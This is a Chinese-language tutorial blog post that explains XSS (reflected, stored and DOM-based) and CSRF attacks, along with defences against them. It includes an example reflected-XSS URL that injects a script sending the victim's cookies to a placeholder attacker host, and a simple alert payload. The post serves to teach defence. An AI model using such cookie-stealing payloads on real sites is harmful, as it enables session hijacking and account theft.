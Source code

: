 ```yaml
---
title: 了解XSS/CSRF
categories:
  - 安全
tags:
  - XSS
  - CSRF
  - 安全
date: 2017-06-06 13:21:15
updated: 2017-06-06 13:21:15
---
```


## XSS攻击和防御
### XSS定义
跨站脚本攻击(Cross Site Scripting)，为不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故将跨站脚本攻击缩写为XSS。
恶意攻击者往Web页面里插入恶意Script代码，当用户浏览该页之时，嵌入其中Web里面的Script代码会被执行，从而达到恶意攻击用户的特殊目的。

### XSS攻击方式
#### 反射型
发出请求时，XSS代码出现在URL中（典型的特征：攻击脚本写在URL中，是明文的），作为输入提交到服务器端，服务器端解析后响应，XSS代码随响应内容一起传回给浏览器（解析了XS代码，服务端把内容与HTML文本下发给浏览器，通常是js脚本），最后浏览器解析执行XSS代码这个过程像一次反射，故叫反射型XSS，也叫作"非持久型XSS“(Non-persistent XSS)
![反射XSS](./reflect_xss.png)

1. 做个假设，当亚马逊在搜索书籍，搜不到书的时候显示提交的名称。
2. 在搜索框搜索内容，填入“<script>alert('handsome boy')</script>”, 点击搜索。
3. 当前端页面没有对返回的数据进行过滤，直接显示在页面上， 这时就会alert那个字符串出来。
4. 进而可以构造获取用户cookies的地址，通过QQ群或者垃圾邮件，来让其他人点击这个地址：
http://www.amazon.cn/search?name=<script>document.location='http://xxx/get?cookie
='+document.cookie</script>

#### 存储型
把用户输入的数据”存储“在服务器端。这种XSS具有很强的稳定性。
比较常见的一个场景：黑客写下一篇包含恶意Javascript代码的博客文章，文章发表后，所有访问该博客文章的用户，都会在他们的浏览器中执行这段恶意的Javascript代码。黑客把恶意的脚本保存在服务器端，所以中XSS攻击就叫做"存储型XSS"。
#### DOM based XSS
也是一种反射型XSS，由于历史原因被单独列出来了。通过修改页面的DOM节点形成的XSS，称之为DOM Based XSS

### XSS的危害
这些危害包括但不局限于：
盗取管理员或普通用户cookie、session；
读取、篡改、添加、删除敏感数据;
网站挂马；
非法转账；
控制受害者机器向其它网站发起攻击 等等

### XSS防御措施
- 编码：不能对用户所有输入保持原样对用户输入的数据写入HTML文档
  [HTML实体编码规则](http://www.w3school.com.cn/tags/html_ref_entities.html)
  避免直接对HTML Entity解码
  使用DOM Parse转换，校正不匹配对的DOM标签
- 过滤：把输入不合法的过滤掉，保持安全性
  移除用户上传的DOM属性，如onerror，onclick等
  移除用户上传的Style节点，script节点，iframe节点等
  在表单提交或者url参数传递前，对需要的参数进行过滤,XSS过滤工具类代码过滤用户输入的 检查用户输入的内容中是否有非法内容。如<>（尖括号）、”（引号）、 ‘（单引号）、%（百分比符号）、;（分号）、()（括号）、&（& 符号）、+（加号）等。、严格控制输出


## CSRF攻击和防御

参考链接：[CSRF 详解与攻防实战](https://segmentfault.com/a/1190000006963312)

CSRF是什么呢？CSRF全名是Cross-site request forgery，是一种对网站的恶意利用，CSRF比XSS更具危险性。想要深入理解CSRF的攻击特性我们有必要了解一下网站session的工作原理。

http请求是无状态的，也就是说每次http请求都是独立的无关之前的操作的，但是每次http请求都会将本域下的所有cookie作为http请求头的一部分发送给服务端，所以服务端就根据请求中的cookie存放的sessionid去session对象中找到该用户资料了。

CSRF攻击的主要目的是让用户在不知情的情况下攻击自己已登录的一个系统，类似于钓鱼。如用户当前已经登录了邮箱，或bbs，同时用户又在使用另外一个，已经被你控制的站点，我们姑且叫它钓鱼网站。这个网站上面可能因为某个图片吸引你，你去点击一下，此时可能就会触发一个js的点击事件，构造一个bbs发帖的请求，去往你的bbs发帖，由于当前你的浏览器状态已经是登陆状态，所以session登陆cookie信息都会跟正常的请求一样，纯天然的利用当前的登陆状态，让用户在不知情的情况下，帮你发帖或干其他事情。

### CSRF防御
通过 referer、token 或者 验证码 来检测用户提交。
尽量不要在页面的链接中暴露用户隐私信息。
对于用户修改删除等操作最好都使用post操作 。
避免全站通用的cookie，严格设置cookie的域。
